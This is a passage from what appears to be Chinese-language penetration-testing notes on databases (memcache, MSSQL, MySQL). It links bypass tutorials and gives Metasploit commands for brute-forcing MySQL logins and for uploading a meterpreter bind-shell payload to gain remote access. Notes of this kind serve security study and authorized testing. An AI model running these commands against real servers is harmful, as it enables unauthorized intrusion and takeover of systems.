     ```bash
    stats           # 查看 memcache 服务状态
    stats items     # 查看所有 items
    set aaa 0 10 9  # 存个 aaa 值
    memcached

    get aaa         # 读这个值
    ```

---

## MSSQL

**教程**
- [aleenzz/MSSQL_SQL_BYPASS_WIKI](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)

**文章**
- [从攻击MS SQL Server到获得系统访问权限](https://www.freebuf.com/articles/database/22997.html)

**提权**

关于 MSSQL 提权内容,见笔记 [提权笔记](./提权笔记.md#MSSQL) MSSQL 提权部分

---

## Mysql

**教程**
- [aleenzz/MYSQL_SQL_BYPASS_WIKI](https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI)

**爆破**
```bash
use auxiliary/scanner/mysql/mysql_login
set RHOSTS <IP>
set USER_FILE <用户名字典>
set PASS_FILE <密码字典>
set STOP_ON_SUCCESS true
set THREADS 20
exploit
```

**提权**

关于 mysql 提权内容,见笔记 [提权笔记](./提权笔记.md#Mysql) mysql 提权部分

**上传文件执行**
```bash
use exploit/windows/mysql/scrutinizer_upload_exec
set RHOST <ip>
set USERNAME <user>
set PASSWORD <pass>
set payload windows/meterpreter/bind_tcp
set RHOST <ip>
set LPORT 4444
exploit
```
